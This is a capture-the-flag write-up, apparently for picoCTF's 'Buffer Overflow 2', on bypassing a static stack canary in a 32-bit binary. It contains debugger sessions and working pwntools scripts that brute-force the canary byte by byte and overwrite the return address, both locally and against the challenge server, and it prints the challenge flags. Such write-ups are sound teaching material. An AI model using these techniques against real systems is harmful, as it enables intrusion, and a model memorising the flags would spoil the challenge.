

# Buffer Overflow 2

## Write-Up

### Introduction

From the `vuln.c` source code, we can see that this challenge is similar to the previous one (Biffer Overflow 1) in terms of vulnerability exploit of the **Buffer Overflow** to jump to the `win()` function. This time, we can find a manual canary security placement in the program.

**Stack Canary Protector :**
 - Buffer overflow protection is any of various techniques used during software development to enhance the security of executable programs by detecting buffer overflows on stack-allocated variables, and preventing them from causing program misbehavior or from becoming serious security vulnerabilities. A stack buffer overflow occurs when a program writes to a memory address on the program's call stack outside of the intended data structure, which is usually a fixed-length buffer. Stack buffer overflow bugs are caused when a program writes more data to a buffer located on the stack than what is actually allocated for that buffer. This almost always results in corruption of adjacent data on the stack, which could lead to program crashes, incorrect operation, or security issues.
 - Typically, buffer overflow protection modifies the organization of stack-allocated data so it includes a canary value that, when destroyed by a stack buffer overflow, shows that a buffer preceding it in memory has been overflowed. 
 - So, Stack Canaries (Stack Smashing Protectors) are a secret value placed on the stack which changes every time the program is started. Prior to a function return, the stack canary is checked and if it appears to be modified, the program exits immeadiately.


<center></center>
<div>
  <center>Canary Location in the Stack</center>
</div>

Generally, the canary value can be extracted by doing a brute force attack on the binary or the programm and verify, character by character, if there will be a stack smashing error or not. Each time a character executes the code normally, that character will be saved to continue the canary value exploration.

After recovering all the canary value, this last can be used in order to perform an overflow attack by injecting it in the middle of the exploit string in a manner that we the stack is smashed, the canary value is conserved.

In this challenge, the main goal is to pass that layer of security. We can see that the author created a customized canary added via the code, this last is a static one stored inside the `canary.txt` file.

The main idea is extract the canary value, then putting it back in place with the stack smashing string we want to use to exploit the **Buffer Overflow** vulnerability.


### Tools used

 - `gdb`
 - `gef` : pritifying of `gdb`, see : https://github.com/hugsy/gef 
 - `nm` : extract addresses of functions inside a binary
 - `cyclic` : gives a bytes cycle sequence to overwrite pointers and variables with.
 - `pwn tools` : binary exploitation tools library of python
 - `gcc-multilib` : this C Compiler enables you to compile C programs to ELF 32-bits or 64-bits, here is how to install it :
   - `sudo apt-get install gcc-multilib`
   - Don't Forget to visit : https://www.geeksforgeeks.org/compile-32-bit-program-64-bit-gcc-c-c/


### Explanation of the attack :


When seeing the code, we can that the vuln functions reads a buffer, but verify a canary variable read from a `canary.txt` before normally get back to the main function to continue the execution. And when exploiting using a string exploit, we that the canary variable is overwritted after the 64th character.

```
┌──(rivench㉿kali)-[~/Documents/picoCTF/pwn/buffer_overflow_3]
└─$ ./vuln
How Many Bytes will You Write Into the Buffer?
> 64
Input> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa  
Ok... Now Where's the Flag?

┌──(rivench㉿kali)-[~/Documents/picoCTF/pwn/buffer_overflow_3]
└─$ ./vuln
How Many Bytes will You Write Into the Buffer?
> 65
Input> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaq
***** Stack Smashing Detected ***** : Canary Value Corrupt!
```

Our goal here is to try to overwrite pointers and variables but to make the program jump to the `win()` function so we can print out the flag, and that by causing a **segmentation fault**. We also need to make sure that the canary variable still have the **the same value** before and after reading the buffer.

As always the steps are the same :

 - Find the cyclic string, this time we need not only to place the address value but also the canary value at the right place :

```
└─$ cyclic 64
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa
```

So we get first part :

```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaallll
```

where `llll` is our canary example that we put in the `canary.txt`. And after running a big valued string, we get :

```
gef➤  ni

[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0x61616174 ("taaa"?)
$ecx   : 0x6c0     
$edx   : 0xf7e229b4  →  0x00000000
$esp   : 0xffffcf10  →  "waaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabja[...]"
$ebp   : 0x61616175 ("uaaa"?)
$esi   : 0xffffcff4  →  0xffffd1b5  →  "/home/rivench/Documents/picoCTF/pwn/buffer_overflo[...]"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x61616176 ("vaaa"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcf10│+0x0000: "waaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabja[...]"    ← $esp
0xffffcf14│+0x0004: "xaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabka[...]"
0xffffcf18│+0x0008: "yaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaabla[...]"
0xffffcf1c│+0x000c: "zaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma[...]"
0xffffcf20│+0x0010: "baabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabna[...]"
0xffffcf24│+0x0014: "caabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboa[...]"
0xffffcf28│+0x0018: "daabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpa[...]"
0xffffcf2c│+0x001c: "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x61616176
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x61616176 in ?? (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  

```

We use cyclic then to get proper position :

```
└─$ cyclic -l vaaa
84
```

we also get the address and convert it to bytes :

```
└─$ nm vuln
0804c050 B __bss_start
0804c050 b completed.7623
0804c048 D __data_start
0804c048 W data_start
08049280 t deregister_tm_clones
08049260 T _dl_relocate_static_pie
08049300 t __do_global_dtors_aux
0804bf0c d __do_global_dtors_aux_fini_array_entry
0804c04c D __dso_handle
0804bf10 d _DYNAMIC
0804c050 D _edata
0804c058 B _end
         U exit@@GLIBC_2.0
         U fclose@@GLIBC_2.1
         U fflush@@GLIBC_2.0
         U fgets@@GLIBC_2.0
080496bc T _fini
         U fopen@@GLIBC_2.1
0804a000 R _fp_hw
08049330 t frame_dummy
0804bf08 d __frame_dummy_init_array_entry
0804a348 r __FRAME_END__
         U fread@@GLIBC_2.0
         U getegid@@GLIBC_2.0
0804c054 B global_canary
0804c000 d _GLOBAL_OFFSET_TABLE_
         w __gmon_start__
0804a158 r __GNU_EH_FRAME_HDR
08049000 T _init
0804bf0c d __init_array_end
0804bf08 d __init_array_start
0804a004 R _IO_stdin_used
         U __isoc99_sscanf@@GLIBC_2.7
080496b0 T __libc_csu_fini
08049640 T __libc_csu_init
         U __libc_start_main@@GLIBC_2.0
080495c4 T main
         U memcmp@@GLIBC_2.0
         U printf@@GLIBC_2.0
         U puts@@GLIBC_2.0
080493e9 T read_canary
         U read@@GLIBC_2.0
080492c0 t register_tm_clones
         U setresgid@@GLIBC_2.0
         U setvbuf@@GLIBC_2.0
08049220 T _start
         U stdout@@GLIBC_2.0
0804c050 D __TMC_END__
08049489 T vuln
08049336 T win
080496b5 T __x86.get_pc_thunk.bp
08049270 T __x86.get_pc_thunk.bx
```


```
Python 3.10.8 (main, Oct 24 2022, 10:07:16) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> p32(0x08049336)
b'6\x93\x04\x08'
```

And here we have our final string with 88 length :

```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaallllraaasaaataaauaaa\x36\x93\x04\x08
```

To check if it is working, we can use an `output.txt` file and pass it to our `./vuln` prgoram in gdb or just in our terminal :

```
Python 3.10.8 (main, Oct 24 2022, 10:07:16) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> open("input.txt", 'wb').write(b'88\naaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaallllraaasaaataaauaaa\x36\x93\x04\x08')
91
>>> exit()
```

 -> gdb :

```
┌──(rivench㉿kali)-[~/Documents/picoCTF/pwn/buffer_overflow_3]
└─$ gdb vuln
GNU gdb (Debian 12.1-3) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
90 commands loaded and 5 functions added for GDB 12.1 in 0.00ms using Python engine 3.10
Reading symbols from vuln...
(No debugging symbols found in vuln)
gef➤  r < input.txt 
Starting program: /home/rivench/Documents/picoCTF/pwn/buffer_overflow_3/vuln < input.txt
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0xf7fc5000'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
How Many Bytes will You Write Into the Buffer?
> Input> Ok... Now Where's the Flag?
picoCTF{fi_khater_smail}
[Inferior 1 (process 40574) exited normally]
gef➤  exit
```

 -> terminal :

```
┌──(rivench㉿kali)-[~/Documents/picoCTF/pwn/buffer_overflow_3]
└─$ cat input.txt | ./vuln                     
How Many Bytes will You Write Into the Buffer?
> Input> Ok... Now Where's the Flag?
picoCTF{fi_khater_smail}
zsh: done                cat input.txt | 
zsh: segmentation fault  ./vuln
```

 - For a local exploit, it is easy to pass the canary with address to get the flag. But in a remote environnement, we don't have the value of that canary. So we need to use a brute force script that try to guess the canary, character by character, and then add the second part of the exploit string to finish the attack. here is how it is done locally :

```python
#! /usr/bin/python3


from pwn import *
from string import printable
import time


canary_length = 4
buffer_length = 64

i = buffer_length + 1

canary = ""

# Brute Force the Canary

while i <= buffer_length + canary_length :
    for c in printable :
        p = process('./vuln')

        p.sendlineafter(b'How Many Bytes will You Write Into the Buffer?', str(i).encode())
        p.sendlineafter(b'Input> ', ('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa' + canary + c).encode())

        if p.recvline().decode() == "Ok... Now Where's the Flag?\n" :
            canary += c
            print(f"canary to go : {canary}")
            i += 1
            # To check if the canary is constructed correctly
            # time.sleep(5)
            break

        p.close()

p = process('./vuln')

p.sendlineafter(b'How Many Bytes will You Write Into the Buffer?', str(88).encode())
payload = (b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa' + canary.encode() + b'raaasaaataaauaaa\x36\x93\x04\x08')
p.sendlineafter(b'Input> ',payload)
p.interactive()
```

```
──(rivench㉿kali)-[~/Documents/picoCTF/pwn/buffer_overflow_3]
└─$  /usr/bin/python3 "/home/rivench/Documents/picoCTF/pwn/buffer_overflow_3/script.py"
[+] Starting local process './vuln': pid 5847
[*] Stopped process './vuln' (pid 5847)
...
[+] Starting local process './vuln': pid 5849
[*] Process './vuln' stopped with exit code 0 (pid 5849)
[+] Starting local process './vuln': pid 5851
canary to go : llll
[+] Starting local process './vuln': pid 5853
[*] Switching to interactive mode
Ok... Now Where's the Flag?
picoCTF{fi_khater_smail}
[*] Got EOF while reading in interactive
$ 
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 5853)
```

 - The same thing applies in the remote part, but only using remote process : 

```python
#! /usr/bin/python3


from pwn import *
from string import printable
import time

HOST = 'saturn.picoctf.net'
PORT = 49638

canary_length = 4
buffer_length = 64

i = buffer_length + 1

canary = ""

# Brute Force the Canary

while i <= buffer_length + canary_length :
    for c in printable :
        p = remote(HOST, PORT)
        print("Testing : " + c)

        p.sendlineafter(b'How Many Bytes will You Write Into the Buffer?', str(i).encode())
        p.sendlineafter(b'Input> ', ('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa' + canary + c).encode())

        p.recvline()
        result = p.recvline()

        if result == b"Ok... Now Where's the Flag?\r\n" :
            canary += c
            print(f"canary to go : {canary}")
            i += 1
            # To check if the canary is constructed correctly
            # time.sleep(5)
            break

        p.close()


p = remote(HOST, PORT)

p.sendlineafter(b'How Many Bytes will You Write Into the Buffer?', str(88).encode())
payload = (b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa' + canary.encode() + b'raaasaaataaauaaa\x36\x93\x04\x08')
p.sendlineafter(b'Input> ',payload)
p.interactive()
```

**Note :** After executing previous script, we notice that the flag is printed then deleted due too some chariot returns. We use `DEBUG` option that is available when using `pwn tools` that helps debug process flux.

```
──(rivench㉿kali)-[~/Documents/picoCTF/pwn/buffer_overflow_3]
└─$  /usr/bin/python3 "/home/rivench/Documents/picoCTF/pwn/buffer_overflow_3/script.py" DEBUG
[+] Starting local process './vuln': pid 5847
[*] Stopped process './vuln' (pid 5847)
...
[+] Starting local process './vuln': pid 5849
[*] Process './vuln' stopped with exit code 0 (pid 5849)
[+] Starting local process './vuln': pid 5851
canary to go : BiRd
...
[+] Opening connection to saturn.picoctf.net on port 52245: Done
[DEBUG] Received 0x32 bytes:
    b'How Many Bytes will You Write Into the Buffer?\r\n'
    b'> '
[DEBUG] Sent 0x3 bytes:
    b'88\n'
[DEBUG] Received 0x4 bytes:
    b'88\r\n'
[DEBUG] Received 0x7 bytes:
    b'Input> '
[DEBUG] Sent 0x59 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  6c 61 61 61  │iaaa│jaaa│kaaa│laaa│
    00000030  6d 61 61 61  6e 61 61 61  6f 61 61 61  70 61 61 61  │maaa│naaa│oaaa│paaa│
    00000040  42 69 52 64  72 61 61 61  73 61 61 61  74 61 61 61  │BiRd│raaa│saaa│taaa│
    00000050  75 61 61 61  36 93 04 08  0a                        │uaaa│6···│·│
    00000059
[*] Switching to interactive mode
[DEBUG] Received 0x5a bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  6c 61 61 61  │iaaa│jaaa│kaaa│laaa│
    00000030  6d 61 61 61  6e 61 61 61  6f 61 61 61  70 61 61 61  │maaa│naaa│oaaa│paaa│
    00000040  42 69 52 64  72 61 61 61  73 61 61 61  74 61 61 61  │BiRd│raaa│saaa│taaa│
    00000050  75 61 61 61  36 93 5e 48  0d 0a                     │uaaa│6·^H│··│
    0000005a

[DEBUG] Received 0x48 bytes:
    b"Ok... Now Where's the Flag?\r\n"
    b'picoCTF{Stat1C_c4n4r13s_4R3_b4D_35bc40e2}\r\n'


[*] Got EOF while reading in interactive
$ 
[DEBUG] Sent 0x1 bytes:
    10 * 0x1
$ 
[DEBUG] Sent 0x1 bytes:
    10 * 0x1
$ 
[DEBUG] Sent 0x1 bytes:
    10 * 0x1
$ 
[DEBUG] Sent 0x1 bytes:
    10 * 0x1
$ 
[DEBUG] Sent 0x1 bytes:
    10 * 0x1
$ 
[DEBUG] Sent 0x1 bytes:
    10 * 0x1
$ 
[*] Interrupted
[*] Closed connection to saturn.picoctf.net port 52245

```

Or for a cleaner code, we can just strip the chariot returns : 

```python
...
p.sendlineafter(b'Input> ',payload)
print(p.recvall().strip(b"\r"))
p.interactive()
...
```

```
┌──(rivench㉿kali)-[~/Documents/picoCTF/pwn/buffer_overflow_3]
└─$  /usr/bin/python3 "/home/rivench/Documents/picoCTF/pwn/buffer_overflow_3/script.py"                                                                                            1 ⨯
[+] Opening connection to saturn.picoctf.net on port 49638: Done
[+] Receiving all data: Done (162B)
[*] Closed connection to saturn.picoctf.net port 49638
b"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaBiRdraaasaaataaauaaa6\x93^H\r\nOk... Now Where's the Flag?\r\npicoCTF{Stat1C_c4n4r13s_4R3_b4D_35bc40e2}\r\n"
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive
```

**Note :** in order to run `vuln` binary, add execution permissions to it.

## Flag

picoCTF{Stat1C_c4n4r13s_4R3_b4D_35bc40e2}

## More information

https://ctf101.org/binary-exploitation/stack-canaries/
https://bananamafia.dev/post/binary-canary-bruteforce/

### Adding Breakpoint in gdb

```
gef➤  disassemble vuln
Dump of assembler code for function vuln:
...
   0x080495b6 <+301>:   call   0x8049150 <fflush@plt>
   0x080495bb <+306>:   add    esp,0x10
   0x080495be <+309>:   nop
   0x080495bf <+310>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x080495c2 <+313>:   leave  
   0x080495c3 <+314>:   ret    
End of assembler dump.
....
gef➤  break *0x080495c3
Breakpoint 1 at 0x80495b5
gef➤  r
```

### Debugging instrcutions

 - `ni` : next instruction. you can use it at a break point after execution, it gives you the state of the stack after that execution. This last will skip call functions
 - `si` : step in, it do the same as ni but stops at execution calls.

These commands can be used to debug a program. After running it, execute multiple `ni` or `si` to see the registers changing. note the difference between the two, so if you are using `ni` and want to check an execution call, read carefully the registers and use `si` when the pointer points to a function.

```
gef➤  ni

[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0x61616174 ("taaa"?)
$ecx   : 0x6c0     
$edx   : 0xf7e229b4  →  0x00000000
$esp   : 0xffffcf10  →  "waaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabja[...]"
$ebp   : 0x61616175 ("uaaa"?)
$esi   : 0xffffcff4  →  0xffffd1b5  →  "/home/rivench/Documents/picoCTF/pwn/buffer_overflo[...]"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x61616176 ("vaaa"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcf10│+0x0000: "waaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabja[...]"    ← $esp
0xffffcf14│+0x0004: "xaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabka[...]"
0xffffcf18│+0x0008: "yaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaabla[...]"
0xffffcf1c│+0x000c: "zaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma[...]"
0xffffcf20│+0x0010: "baabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabna[...]"
0xffffcf24│+0x0014: "caabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboa[...]"
0xffffcf28│+0x0018: "daabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpa[...]"
0xffffcf2c│+0x001c: "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x61616176
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x61616176 in ?? (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  

```

### Debugging pwn flux

```
/usr/bin/python3 "/home/rivench/Documents/picoCTF/pwn/buffer_overflow_3/script.py" DEBUG
```

 - `DEBUG` : argument given when to script using pwntools give you history of sends and rcvs to see how it is going, here is an example :


```
└─$  /usr/bin/python3 "/home/rivench/Documents/picoCTF/pwn/buffer_overflow_3/script.py" DEBUG
[+] Opening connection to saturn.picoctf.net on port 52245: Done
[DEBUG] Received 0x32 bytes:
    b'How Many Bytes will You Write Into the Buffer?\r\n'
    b'> '
[DEBUG] Sent 0x3 bytes:
    b'88\n'
[DEBUG] Received 0x4 bytes:
    b'88\r\n'
[DEBUG] Received 0x7 bytes:
    b'Input> '
[DEBUG] Sent 0x59 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  6c 61 61 61  │iaaa│jaaa│kaaa│laaa│
    00000030  6d 61 61 61  6e 61 61 61  6f 61 61 61  70 61 61 61  │maaa│naaa│oaaa│paaa│
    00000040  42 69 52 64  72 61 61 61  73 61 61 61  74 61 61 61  │BiRd│raaa│saaa│taaa│
    00000050  75 61 61 61  36 93 04 08  0a                        │uaaa│6···│·│
    00000059
[*] Switching to interactive mode
[DEBUG] Received 0x5a bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  6c 61 61 61  │iaaa│jaaa│kaaa│laaa│
    00000030  6d 61 61 61  6e 61 61 61  6f 61 61 61  70 61 61 61  │maaa│naaa│oaaa│paaa│
    00000040  42 69 52 64  72 61 61 61  73 61 61 61  74 61 61 61  │BiRd│raaa│saaa│taaa│
    00000050  75 61 61 61  36 93 5e 48  0d 0a                     │uaaa│6·^H│··│
    0000005a

[DEBUG] Received 0x48 bytes:
    b"Ok... Now Where's the Flag?\r\n"
    b'picoCTF{Stat1C_c4n4r13s_4R3_b4D_35bc40e2}\r\n'


[*] Got EOF while reading in interactive
```